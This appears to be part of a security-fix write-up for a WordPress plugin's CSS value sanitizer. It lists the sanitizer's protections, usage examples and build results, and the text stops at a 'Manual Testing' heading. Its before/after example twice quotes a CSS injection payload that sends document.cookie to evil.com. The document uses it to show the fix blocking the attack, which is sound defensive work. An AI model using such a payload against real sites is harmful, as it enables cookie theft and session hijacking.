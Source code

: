 ### Security Benefits

- ✅ **Whitelist Validation:** Only allows known-safe CSS patterns
- ✅ **Blocks Dangerous Functions:** expression(), url(), attr(), var() blocked
- ✅ **Type-Specific Validation:** Different rules for size, color, url
- ✅ **Defense in Depth:** Multiple validation layers
- ✅ **Debugging Support:** Logs rejected values in WP_DEBUG mode
- ✅ **Theme Integration:** Safely allows WordPress color/spacing presets

### Example Usage

```php
// Validate spacing value
$padding = designsetgo_sanitize_css_value( $user_input, 'spacing' );
if ( $padding ) {
	$styles .= 'padding: ' . $padding . ';';
}

// Validate color value
$bg_color = designsetgo_sanitize_css_value( $user_input, 'color' );
if ( $bg_color ) {
	$styles .= 'background-color: ' . $bg_color . ';';
}
```

### Attack Prevention

**Before (Vulnerable):**
```php
$evil = "red'); background: url('https://evil.com?steal='+document.cookie); color: (red";
$sanitized = sanitize_text_field($evil);
// Result: VULNERABLE - CSS injection successful
```

**After (Secure):**
```php
$evil = "red'); background: url('https://evil.com?steal='+document.cookie); color: (red";
$sanitized = designsetgo_sanitize_css_value($evil, 'color');
// Result: null - attack blocked, logged in debug mode
```

---

## 📊 Testing Summary

### Build Status

```bash
✅ PHP Syntax: No errors
✅ npm run build: Compiled successfully
✅ Bundle Size: No increase
```

### Manual Testing
